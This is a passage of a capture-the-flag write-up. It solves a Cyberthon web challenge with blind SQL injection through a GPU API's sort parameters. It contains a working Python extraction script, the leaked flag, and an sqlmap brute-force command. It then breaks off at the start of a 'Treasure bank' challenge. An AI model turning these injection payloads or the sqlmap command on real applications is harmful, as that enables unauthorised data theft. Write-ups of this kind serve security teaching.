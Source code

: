 ```python
# chars = "b"
# chars = ["RGB"]

async def attempt(c: httpx.AsyncClient, sort_by="name", sort_order="asc"):
    res = await c.get(f"{url}/api/gpus?sort_by={sort_by}&sort_order={sort_order}&page=1&per_page=2&search=RTX 4060")
    data = res.json()
    if "error" in data:
        print(f"Err: {data['error']}")
        print(f"Payloads:\n{sort_by}\n{sort_order}")
        return False
    matched = "Ti" in data["data"][0]["name"]
    return matched

async def main():
    async with httpx.AsyncClient() as client:
        cur = ""
        while True:
            queue = []
            for char in chars:
                tmp = cur+char
                order_payload = f"* (CASE WHEN (SELECT INSTR(architecture, '{cur+char}') FROM gpus WHERE name='RGB 6090')=1 THEN -1 ELSE 1 END)"
                sort_payload = f"CASE WHEN (SELECT INSTR(architecture, '{cur+char}') FROM gpus WHERE name='RGB 6090') = 1 THEN architecture ELSE name END"
                # queue.append(attempt(client,sort_by="cuda_cores", sort_order=order_payload))
                queue.append(attempt(client,sort_by=sort_payload, sort_order="asc"))

            queue = await asyncio.gather(*queue)
            cur += chars[queue.index(True)]
            print(cur)
            # return

asyncio.run(main())
```
From there, we can slowly leak the characters of the flag in the RGB 6090 after checking every single field (In this case, the flag was hidden in `architecture`)
`Cyberthon{M04R_AYY_E11_4ND_RGB_M34N5_B33G_FP5_1NCR3453}`
> Interestingly, on the competition day itself `sort_by` refused to work for whatever reason. Instead, DeepSeek suggested this interesting trick to control the sort order using `ASC`/`DESC` in numerical values
> ![[Pasted image 20250512134627.png]]

### The cheese method(?)
As it turns out, when 0 sanitization or processing is being done on your payload and the returned response from the server is not complex, sqlmap is able to brute force the entire solve process for you.
```bash
sqlmap -a --url="http://chals.f.cyberthon25.ctf.sg:50131/api/gpus?sort_by=boost_clock&sort_order=asc&page=1&per_page=9" --risk=3 --level=5 --threads=5
```
![[Pasted image 20250512140142.png]]
# Treasure bank
#langs/python 
We have a bank simulator app where our goal is to obtain an impossibly large amount of money to claim the flag. Reviewing the source, code we see the docker compose file contains 2 services to be run:
```yml
services:
  bank:
    build: bank
```